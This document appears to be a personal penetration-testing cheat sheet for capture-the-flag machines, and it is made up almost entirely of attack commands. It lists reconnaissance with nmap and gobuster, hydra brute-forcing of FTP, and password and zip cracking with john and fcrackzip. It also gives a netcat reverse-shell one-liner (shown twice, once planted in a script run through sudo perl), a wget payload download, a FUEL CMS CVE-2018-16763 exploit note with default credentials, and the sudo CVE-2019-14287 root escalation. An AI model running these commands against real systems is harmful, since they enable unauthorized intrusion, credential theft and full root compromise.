 ## nmap scan
sudo nmap -sC -sV -v -oN nmap.md TARGET_IP 


## Gobuster Scan
sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/

sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt

sudo gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt


## dirbuster scan
sudo dirb http://TARGET_IP/ -R 

## Cat all find read
cat *


## import TARGET_IP
$IP


## To Check Sudo Permissions
sudo -l
sudo su
su root

## curl command to change alphabets [agent-user] in web
sudo curl -A "CHANGE_LETTER" -L TARGET_IP


## prev esc linux bash shell
sudo bash

## download file from SSH TARGET MACHINE
scp USERNAME@TARGET_IP_ADDRS:FILENAME


## perl write to copy.sh [reverse shell]
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LOCAL_IP 5554 >/tmp/f' >/etc/copy.sh

sudo /usr/bin/perl /home/itguy/backup.pl

## FTP Usage
ftp TARGET_IP


## python shell - stable bash shell
python3 -c  'import pty;pty.spawn("/bin/bash")'


## FUEL CMS Exploit 1.4.1 CVE-2018-16763
run command with ""
example:
CMD: "ls -la"
default cred: admin: admin


## FUEL CMS Database login info
fuel/application/config
cat database.php


## netcat revershell
"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc TARGET_IP 1234 >/tmp/f"


## hydra command to brute-force FTP with username
sudo hydra -l USERNAME -P /usr/share/wordlists/rockyou.txt TARGET_IP ftp


## run python http server
sudo python -m SimpleHTTPServer 80


## wget download file
sudo wget http://LOCAL_IP/FILE_NAME -0  PATH/PATH/

sudo wget http://YOUR_IP_ADDRS:8080/FILENAME


## john cracking the password
sudo john HASH_FILENAME --wordlist=/usr/share/wordlists/rockyou.txt

## john ZIP file cracking
sudo zip2john FILENAME.zip > OUTFILENAME

## fcrackzip command
fcrackzip <zip-file> -D -p /usr/share/wordlists/rockyou.txt

## 7zip
7z e ZIP_FILENAME  

## steghide command
steghide info FILENAME [info about filename]

steghide extract -sf FILENAME [extract]

## CyberChef to crack hash [base64]
https://gchq.github.io/CyberChef/

## sudo 1.8.21 exploit CVE-2019-14287
sudo -u#-1 /bin/bash [spawn as root] 
